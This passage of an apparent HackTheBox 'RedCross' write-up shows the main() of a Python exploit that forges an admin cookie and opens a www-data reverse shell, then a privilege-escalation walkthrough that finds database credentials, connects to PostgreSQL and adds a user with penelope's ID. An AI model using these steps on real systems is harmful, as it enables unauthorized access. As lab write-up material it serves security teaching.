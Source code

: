```py
    '''Here we call the functions'''
    # Start the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Make the login request to get cookies
    login(rhost)
    # Become admin
    adminPageCookie(rhost)
    # Get www-data reverse shell
    getReverseShell(rhost, lhost, lport)

if __name__ == '__main__':
    main()
```

## Penelope Shell

We can get a penelope shell too on this box

First we need to find postgresql Creds

With few greps looking for password we found something interesting in `actions.php`

```sh
cat ./actions.php -n | grep password --color
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:43:57.png)

We found a particular good function in it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:45:10.png)

It seems to have the power to add users on the system... Which is very interesting!

We connect on the `psql`

```sh
psql -h 127.0.0.1 -U unixusrmgr -p 5432 -d unix
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:47:25.png)

We found the structure of the passwd_table

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:48:40.png)

So, we can add a user with the same id as penelope, and get it

We generate our password

```sh
openssl passwd -1 0x4rt3mis
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:50:53.png)
